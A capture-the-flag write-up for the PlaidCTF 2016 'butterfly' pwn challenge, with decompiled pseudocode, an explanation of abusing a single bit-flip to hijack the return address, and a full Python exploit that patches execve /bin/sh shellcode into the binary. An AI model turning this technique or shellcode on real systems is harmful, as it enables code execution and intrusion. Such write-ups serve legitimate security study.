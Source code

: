 ```yaml
---
layout: post
title: pctf 2016 butterfly writeup
category: writeup
---
```



with disassembler, I can get pseudocode like
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int v3; // er14@1
  __int64 v4; // rax@2
  char v5; // bl@2
  __int64 v6; // rbp@2
  unsigned __int64 v7; // r15@2
  __int64 v8; // rax@5
  char v10; // [sp+0h] [bp-68h]@1
  __int64 v11; // [sp+40h] [bp-28h]@1

  v11 = *MK_FP(__FS__, 40LL);
  setbuf(_bss_start, 0LL);
  puts("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?");
  v3 = 1;
  if ( fgets(&v10, 50, stdin) )
  {
    v4 = strtol(&v10, 0LL, 0);
    v5 = v4;
    v6 = v4 >> 3;
    v7 = (v4 >> 3) & 0xFFFFFFFFFFFFF000LL;
    if ( mprotect((void *)v7, 0x1000uLL, 7) )
    {
      perror("mprotect1");
    }
    else
    {
      v3 = 1;
      *(_BYTE *)v6 ^= 1 << (v5 & 7);
      if ( mprotect((void *)v7, 0x1000uLL, 5) )
      {
        perror("mprotect2");
      }
      else
      {
        puts("WAS IT WORTH IT???");
        v3 = 0;
      }
    }
  }
  v8 = *MK_FP(__FS__, 40LL);
  if ( *MK_FP(__FS__, 40LL) == v11 )
    LODWORD(v8) = v3;
  return v8;
}
```

so this program get one integer, and xor one specific bits.
I choose one address to change stack operation

> .text:0000000000400860                 add     rsp, 48h | 48 83 C4 48

to

> .text:0000000000400860                 add     rsp,  8h | 48 83 C4 08

so i can control return address. (goto main and loop this thing)

and next thing is easy: overwrite any address to shellcode and execute it.

my exploit code:
```python
import pwnbox
import struct

# PCTF{b1t_fl1ps_4r3_0P_r1t3}

local = True

main_ = 0x400788
libc_init = 0x400890
if local:
    p = pwnbox.pipe.ProcessPipe('gdb -q butterfly_33e86bcc2f0a21d57970dc6907867bed')
else:
    p = pwnbox.pipe.SocketPipe('butterfly.pwning.xxx',9999)

first_point = (0x400863) << 3 | 6

def xor_code(addr,pos):
    p.read_until('RAY?')
    p.write(('%d' % ((addr << 3) | pos)).ljust(40,'A') + struct.pack('<Q',main_) + '\n')

def xor_byte(addr,byte):
    for i in range(8):
        if byte & 1 :
            xor_code(addr,i)
        byte /= 2

def change_byte(addr,orig,new):
    xor_byte(addr,orig)
    xor_byte(addr,new)

def change_bytes(addr,orig_bytes,new_bytes):
    for i in range(len(orig_bytes)):
        change_byte(addr+i, struct.unpack('<B',orig_bytes[i])[0], struct.unpack('<B',new_bytes[i])[0])


if local:
    p.read_until('(gdb)')
    #p.write('b *0x400860\n')
    p.write('r\n')


p.read_until('RAY?')
p.write(('%d'%first_point).ljust(40,'A') + struct.pack('<Q',main_)+'\n')
change_bytes(libc_init,'415741564189FF415541544C8D251602200055488D2D1602200053'.decode('hex'),'31c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05'.decode('hex'))

p.read_until('RAY?')
p.write(('%d'%(0x40086B << 3 | 0)).ljust(40,'A') + struct.pack('<Q',libc_init) + '\n')
p.interact()
```
